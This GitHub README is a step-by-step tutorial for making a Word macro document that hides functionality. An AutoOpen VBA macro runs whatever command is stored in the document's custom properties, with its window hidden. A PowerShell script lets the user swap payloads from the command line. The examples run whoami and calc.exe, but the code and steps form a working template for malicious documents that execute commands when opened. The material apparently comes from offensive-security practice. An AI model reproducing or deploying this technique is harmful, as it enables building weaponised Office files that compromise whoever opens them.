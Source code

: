 # Office_Macros_With_Hidden_Functionalities
## Summary
Inspired by the recent Offensive Security post https://www.offensive-security.com/offsec/macro-weaponization/ I thought it would be beneficial to make some minor modifications to this so that it could be updated from the command line using PowerShell. The ultimate goal was to be able to quickly edit a word document and modify payloads from the command line. Although creating the document is still a manual procedure, changing the payload can be made easier by using PowerShell. 

## Create Document Template
1. Create a new word document. 
![Create New Document](images/1.png)

2. Select `View`, `Macros`, `View Macros`.
![View Macros](images/2.png)

3. Enter a name for the macro in the `Macro name:` field. Ensure that the `Macros in:` field is set to be the current document (Document1) likely if the document is new and hasn't yet been saved. Select `Create`. 
![Create Macro](images/3.png)

4. Copy & Paste the code below into the codebox and click on the `Save` icon.
![Create Macro](images/4.png)
```vb
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.CustomDocumentProperties("cmd").Value
    strArgument = doc.CustomDocumentProperties("argument").Value
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub
```

5. If prompted to save the document somewhere, In this example I will use the location `C:\temp\cmd_exec.docx`. Also set the `Save as type:` field to be `Word Macro-Enabled Document (*.docm)`. 
![Create Macro](images/10.png)

6. Click the `X` to close the Macro dialog box. 
![Create Macro](images/11.png)

7. Create Custom properties. Go to `File`, `Info`, `Properties`, `Advanced Properties`.
![Create Macro](images/5.png)

8. Select the `Custom` tab. In the `name` field enter `cmd`, in the `value` field enter `cmd.exe` then click `Add`
![Create Macro](images/6.png)
![Create Macro](images/7.png)

8. In the `name` field enter `argument`, in the `value` field enter `/c whoami` then click `Add`
![Create Macro](images/8.png)

9. Once both values have been added, Click OK to close the `Properties` dialog box. 
![Create Macro](images/9.png)

9. Save the document, for this example I have saved it to `C:\temp\cmd_exec.docm`. 
![Create Macro](images/12.png)

## PowerShell

```powershell
# Initiate Word
$Word = New-Object -ComObject Word.Application
# Set Word to be visible
$Word.Visible = $true
# Open the template document (Modify the directory if different)
$Document = $Word.Documents.Open('C:\temp\cmd_exec.docm')

$binding = "System.Reflection.BindingFlags" -as [type];        
$CustomProperties = [System.__ComObject]$Document.CustomDocumentProperties
            [Array]$propertyName = "cmd"
            [Array]$propertyValue = "calc.exe"
            #Get property value
            $myProperty = [System.__ComObject].InvokeMember("Item", $binding::GetProperty, $null, $customProperties, $propertyName)
            $myPropertyValue  = [System.__ComObject].InvokeMember("value",$binding::GetProperty,$null,$myProperty,$null);
            #Set property value
            [System.__ComObject].InvokeMember("Value",$binding::SetProperty,$null,$myProperty,$propertyValue)
```